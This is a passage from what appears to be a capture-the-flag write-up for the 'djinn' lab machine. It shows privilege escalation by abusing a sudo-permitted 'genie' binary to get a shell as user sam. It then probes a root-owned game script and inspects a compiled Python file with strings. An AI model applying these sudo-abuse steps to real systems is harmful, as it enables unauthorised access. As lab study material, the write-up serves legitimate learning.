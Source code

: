 ```Shell
       There  are  shit  loads  of bug in this program, it's all about finding
       one.

AUTHOR
       mzfr

1.0                            11 November 2019                         man(8)
```

So, let's try the new parameter:
```Shell
nitish@djinn:/opt/80$ sudo -u sam genie -cmd test
my man!!
$ whoami
sam
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ 
```

With _sam_ we have access to a script named as lago in /root but nothing relevant:
```Console
sam@djinn:/opt/80$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: 5
Better Luck next time
sam@djinn:/opt/80$ 
```
In _/home/sam_ there is a _.pyc_ that looks like _/root/logo_. We can try to decompile.

With strings looks like _/root/lago_:
```Shell
sam@djinn:/home/sam$ strings /home/sam/.pyc
getuser(
system(
randintc
Working on it!! (
/home/mzfr/scripts/exp.pyt
naughtyboi
Choose a number between 1 to 100: s
Enter your number: s
/bin/shs
Better Luck next time(
inputR
numt
/home/mzfr/scripts/exp.pyt
guessit
Enter the full of the file to read: s!
User %s is not allowed to read %s(
usert
path(
/home/mzfr/scripts/exp.pyt
readfiles
What do you want to do ?s
1 - Be naughtys
2 - Guess the numbers
3 - Read some damn filess
4 - Works
```